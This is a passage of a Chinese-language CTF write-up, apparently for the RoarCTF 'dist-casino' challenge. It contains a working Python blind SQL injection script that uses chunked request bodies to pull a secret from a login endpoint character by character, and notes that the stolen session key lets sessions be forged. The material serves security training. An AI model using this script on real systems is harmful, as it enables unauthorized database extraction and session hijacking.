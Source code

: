    编写盲注脚本，可以使用BurpSuite插件进行Chunked编码

   这里不用代理直接用requests实现chunked

   注入脚本：

   ```python
   import requests
   
   url = 'http://IP:50000/auth/login'
   
   flag = ''
   for i in range(1, 32):
       for j in 'zxcvbnmlkjhgfdsaqwertyuiop0987654321!@#$%^&*()_+':
           t = f"iv4n' and substr((select secret from secret limit 1),{i},1)='{j}'-- -"
           tmp = f'{{"uname":"{t}","pwd":"11111111"}}'
   
           def data():
               for w in tmp:
                   yield w.encode()
   
           r = requests.post(url, data=data(), headers={'Content-Type': 'application/json'})
           if r.json()['msg'] == 'ok':
               flag += j
               break
       print(flag)
   
   ```

4. 注入成功后可拿到管理员密码，但发现数据库存储加盐了，salt写在配置文件无从得知，所以很难还原出管理员密码，需要换一个思路

5. 发现Session的密钥存在数据库的secret表里，且观察发现Session数据是存储在Cookie中的。

   ![](https://github.com/EddieIvan01/roarCTF-dist-casino/blob/master/img/4.png)

   注入获取密钥

   ![](https://github.com/EddieIvan01/roarCTF-dist-casino/blob/master/img/5.png)
